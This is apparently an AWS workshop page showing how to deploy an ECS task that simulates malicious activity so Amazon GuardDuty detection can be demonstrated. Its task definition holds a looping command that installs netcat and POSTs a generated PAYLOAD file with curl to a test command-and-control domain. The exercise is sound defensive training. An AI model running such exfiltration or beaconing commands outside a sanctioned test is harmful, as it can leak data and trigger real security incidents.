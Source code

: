 ```yaml
---
title : "Create Malicious Task"
date :  "`r Sys.Date()`" 
weight : 4
chapter : false
pre: "<b> 4.4. </b>"
---
```


![alt text](/images/4-amazon-guardduty/4.4-create-malicious-task/image-2.png)
*Figure 1. Create malicious task diagram*

In this section, we will create an ECS task that simulates unauthorized activity to demonstrate Amazon GuardDuty's threat detection capabilities. The task will attempt to communicate with a known command and control server domain and execute a generated binary file.

First, create the task definition:

```bash
cat << EOF > malicious-guardduty-taskdef.json
{
    "family": "malicious-guardduty-task",
    "networkMode": "awsvpc",
    "requiresCompatibilities": [
        "FARGATE"
    ],
    "cpu": "1024",
    "memory": "2048",
    "runtimePlatform": {
        "cpuArchitecture": "X86_64",
        "operatingSystemFamily": "LINUX"
    },
    "containerDefinitions": [
        {
            "name": "guardduty-test",
            "image": "public.ecr.aws/ubuntu/ubuntu:22.04",
            "portMappings": [],
            "essential": true,
            "entryPoint": [
                "sh",
                "-c"
            ],
            "command": [
                "while true; do sleep 30;apt update -y;apt install python3 curl gcc netcat-openbsd g++ sudo zip -y; dd if=/dev/random of=PAYLOAD bs=1024 count=1;curl -X POST -F \"file=@PAYLOAD\" -s --connect-timeout 1 http://c2.guarddutyc2activityb.com/sample.dat > /dev/null; echo \"done!\";sleep 60; done"
            ],
            "environment": [],
            "mountPoints": [],
            "volumesFrom": [],
            "linuxParameters": {
                "capabilities": {
                    "add": [
                        "SYS_PTRACE"
                    ],
                    "drop": []
                }
            },
            "privileged": false,
            "logConfiguration": {
                "logDriver": "awslogs",
                "options": {
                    "awslogs-group": "retail-store-ecs-tasks",
                    "awslogs-region": "${AWS_REGION}",
                    "awslogs-stream-prefix": "guardduty"
                }
            }
        }
    ],
    "executionRoleArn": "arn:aws:iam::${ACCOUNT_ID}:role/retailStoreEcsTaskExecutionRole",
    "taskRoleArn": "arn:aws:iam::${ACCOUNT_ID}:role/retailStoreEcsTaskRole"
}
EOF

aws ecs register-task-definition --cli-input-json file://malicious-guardduty-taskdef.json
```

Deploy the task to your ECS cluster:

```bash
aws ecs run-task \
    --cluster retail-store-ecs-cluster \
    --task-definition malicious-guardduty-task:1 \
    --launch-type FARGATE  \
    --network-configuration "awsvpcConfiguration={subnets=[${PRIVATE_SUBNET1},${PRIVATE_SUBNET2}],assignPublicIp=DISABLED}"
```

Monitor GuardDuty Findings:

1. Navigate to the [Amazon GuardDuty console](https://console.aws.amazon.com/guardduty/home)
2. Wait approximately 3-5 minutes for findings to appear
3. Review the security alerts that indicate suspicious activity

![Guardduty Console](/images/4-amazon-guardduty/4.4-create-malicious-task/image.png)
*Figure 2. GuardDuty Console*

Examine the detailed findings:

![Guardduty Findings](/images/4-amazon-guardduty/4.4-create-malicious-task/image-1.png)
*Figure 3. GuardDuty Findings*

Amazon GuardDuty provides detailed context for each security finding, including:
- ECS cluster information
- Task details
- Container specifications
- IP and domain-based threat indicators

This detailed information enables security teams to quickly identify and respond to potential threats.

For additional information about GuardDuty findings and monitored resources, consult the [Amazon GuardDuty findings guide](https://docs.aws.amazon.com/guardduty/latest/ug/findings-runtime-monitoring.html).